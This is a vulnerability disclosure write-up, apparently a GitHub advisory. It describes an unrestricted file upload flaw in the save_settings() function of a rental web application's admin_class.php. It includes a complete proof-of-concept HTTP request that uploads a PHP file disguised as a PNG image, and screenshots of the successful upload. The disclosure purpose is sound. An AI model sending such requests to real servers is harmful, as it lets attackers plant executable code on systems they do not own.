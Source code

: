 #### There is an arbitrary file upload vulnerability in the save_settings() function of the file rental/admin_class.php.

**Code analysis**

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910223944680.png)

The code logic is to first upload as a temporary file, and then use the function `move_uploaded_file` to move the temporary file to the `assets/uploads/` directory. There is no filtering for file extensions and content, so any file can be uploaded.

**Vulnerability reproduction**

poc

```http
POST /ajax.php?action=save_settings HTTP/1.1
Host: localhost:1110
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: multipart/form-data; boundary=---------------------------303633564229447810934000106849
Content-Length: 716

-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="name"

test
-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="contact"

teatteat
-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="email"

testtest@qq.coma
-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="about"

hello world
-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="img"; filename="1.php" 
Content-Type: image/png  

<?php phpinfo();
-----------------------------303633564229447810934000106849--
```

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910224103866.png)

As shown in the figure, successfully uploaded.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910224228185.png)

Parse the access path

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910224257381.png)

